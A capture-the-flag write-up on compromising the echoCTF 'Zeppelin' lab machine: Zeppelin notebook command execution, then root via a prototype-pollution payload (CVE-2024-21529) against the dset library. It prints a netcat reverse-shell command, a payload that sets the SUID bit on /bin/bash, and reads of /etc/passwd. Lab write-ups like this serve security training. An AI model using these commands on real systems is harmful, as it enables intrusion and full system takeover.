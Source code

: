 ```yaml
---
description: >-
  Zeppelin echoCTF Machine
title: Zeppelin (Insane)                # Add title here
date: 2025-02-19 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Insane]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Zeppelin.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.14.54
```

### Content

- Zeppelin RCE in Notebooks
- `dset` Prototype Pollution

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.14.54
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.14.54 ()     Status: Up
Host: 10.0.14.54 ()     Ports: 22/open/tcp//ssh///, 8080/open/tcp//http-proxy///
```
Services and Versions running:
```bash
nmap -p22,8080 -sCV -n -Pn -vvvv -oN targeted 10.0.14.54
Nmap scan report for 10.0.14.54
Host is up, received user-set (0.16s latency).
Scanned at 2025-02-19 12:43:45 EST for 56s

PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 f7:cc:33:87:22:ed:c3:cb:45:b7:dd:95:f2:34:da:24 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKouI3kffwDSRKY1B25jhOuMVUNNUfvamusW5mdT1KXDH7avAh82yQPsd3hoiOvuSV1U1nEB4Zk/HaxCxAkfPQ0=
|   256 62:9c:fb:c3:b5:be:07:b2:57:76:db:ba:4e:ad:8a:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICUppbfs4rbq3sknjIEJK2de7E+pZwsIv/bRSjzM1s8T
8080/tcp open  http-proxy syn-ack ttl 63
|_http-title: Zeppelin
|_http-server-header: <empty>

```

### Exploitation

First of all, there is a web page on port HTTP 8080:
![](/assets/img/Pasted-image-20250219112745.png)

It seems like the CMS is called Zeppelin, so I searched for possible exploits an I found this interesting [Zeppelin RCE tricks](https://exploit-notes.hdks.org/exploit/web/apache-zeppelin-pentesting/) page, which explains how is possible to run commands from notebooks, after testing some of the Interpreters, none of the worked, except for the `sh`:
![](/assets/img/Pasted-image-20250219112952.png)

Once I identified that `sh` interpreter worked using the command `cat /etc/passwd`:
![](/assets/img/Pasted-image-20250219113253.png)

Then all you need to execute is your favorite reverse shell command:
```bash
nc -e /bin/bash 10.10.5.122 1234
```

### Privilege Escalation

For privilege escalation there is a script that we can run as sudo without password:
```bash
ETSCTF@zeppelin:/opt/zeppelin-0.11.0-bin-all$ sudo -l
Matching Defaults entries for ETSCTF on zeppelin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User ETSCTF may run the following commands on zeppelin:
    (ALL : ALL) NOPASSWD: /opt/node/bin/setter
```
Its content is like this:
```bash
#!/opt/node/bin/node
var args = process.argv.slice(2);
(async () => {
  const lib = await import('dset');
  var obj = args[0]
  var prop = args[1]
  var val = args[2]
  try {
    lib.dset(JSON.parse(obj), JSON.parse(prop), val)
  } catch (e) { }
  var shell = {}
  if(shell.cmd)
  {
    eval(shell.cmd);
  }
```
The interesting part of this script is the `dset` library, after some research, I came up with this [CVE-2024-21529](https://security.snyk.io/vuln/SNYK-JS-DSET-7116691), the vulnerability is because of a prototype pollution, after some testing and some ChatGPT prompts I ended with this payload:
```bash
sudo /opt/node/bin/setter '{}' '[["__proto__"],"cmd"]' 'require("child_process").execSync("chmod +s /bin/bash")'
```
Finally run the bash as root:
```bash
/bin/bash -p
```

### Post Exploitation
Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`


### Credentials
- No credentials were neeeded for this machine


### Notes

- CVE exploits are always something you should always check, even if the version of the app is not the same as in the exploit, is worth to check them anyways, sometimes there are versions of the app that are still vulnerable because the version is a development one such as `1.0.0-dev` which hasn't been patched yet.

### References
- [Zeppelin RCE tricks](https://exploit-notes.hdks.org/exploit/web/apache-zeppelin-pentesting/)


